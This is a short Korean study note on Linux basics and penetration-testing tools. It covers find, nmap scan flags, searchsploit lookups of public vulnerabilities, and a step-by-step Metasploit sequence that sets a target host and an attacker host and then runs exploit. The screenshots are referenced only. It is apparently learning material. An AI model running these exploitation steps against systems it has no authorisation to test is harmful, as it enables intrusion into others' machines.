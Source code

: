 리눅스 기초 명령어
find / -name "찾을 거" 

![이미지](/assets/f.png)

**정보수집**

nmap ip 
-p:특정 포트 스캔

-sV :정확한 네트워크 정보나 이름 알려줌

-OA 출력 형태 지정
![이미지](/assets/nmap1.png)
searchsploit:공개된 취약점 검색

-w:웹 사이트 주소로 보여줌
![이미지](/assets/searchsploit1.png)

공격

msfconsole:메타스플로이트 프레임워크를 콘솔형태로 사용 가능
다양한 취약점 공격 가능
![이미지](/assets/ms.png)

search 취약점이름
![이미지](/assets/search.png)

use 0

![이미지](/assets/use.png)

options
![이미지](/assets/options.png)

set rhost 타겟 ip

set lhost 공격자 ip

![이미지](/assets/set12.png)

입력하면 rhost 와 lhost 부분이 모습을 볼 수 있다

![이미지](/assets/set%20c.png)

exploit
![이미지](/assets/exploit1.png)
이 문구가 다 뜨고나서 명령어를 입력하면 된다.

